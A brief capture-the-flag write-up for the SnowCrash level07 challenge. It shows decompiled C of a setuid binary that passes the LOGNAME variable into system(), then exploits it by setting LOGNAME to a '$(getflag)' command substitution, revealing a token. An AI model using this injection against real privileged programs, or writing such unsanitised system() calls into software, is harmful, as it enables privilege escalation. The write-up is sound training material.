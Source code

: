 This one has been quite simple, with a ls we saw an exectuable file, we put it in ghidra that show us this : 

int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

This is the intersting part : 

  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);

  Just need to change our env with : export LOGNAME='$(getflag)'
  and we get :

/*********************************************************\

level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

\*********************************************************/
